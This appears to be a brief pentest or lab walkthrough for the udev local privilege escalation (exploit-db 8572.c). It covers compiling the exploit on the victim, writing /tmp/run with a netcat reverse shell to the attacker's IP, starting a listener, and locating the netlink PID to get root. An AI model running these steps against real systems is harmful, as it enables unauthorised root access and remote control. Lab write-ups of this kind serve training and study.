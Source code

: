 # UDEVD

the exploit code is here:

#### `/usr/share/exploitdb/exploits/linux/local/8572.c`

we have to send it to victim machine and compile it there

after transferring and compiling with gcc 8572.c -o exploit , we have to create the file /tmp/runafter executing the exploit every command inside the run file will be executed as root. so we can write the run file like this:

#### `#!/bin/bash  nc -nv 192.168.56.1 1234 -e /bin/bash`

on attacker side:

#### `nc -nvlp 1234`

now we have to find the PID \(process identifier\) of the Netlink socket, which is usually the PID of the UDEVD process minus one. We can do that by running cat /proc/net/netlink, and the only nonzero PID should be the number we want. Verify that this is correct by running ps aux \| grep udev — it should be one number higher.

![](../../../.gitbook/assets/udevd1.png)

now run the exploit and we have a root shell in netcat:

![](../../../.gitbook/assets/udevd2.png)



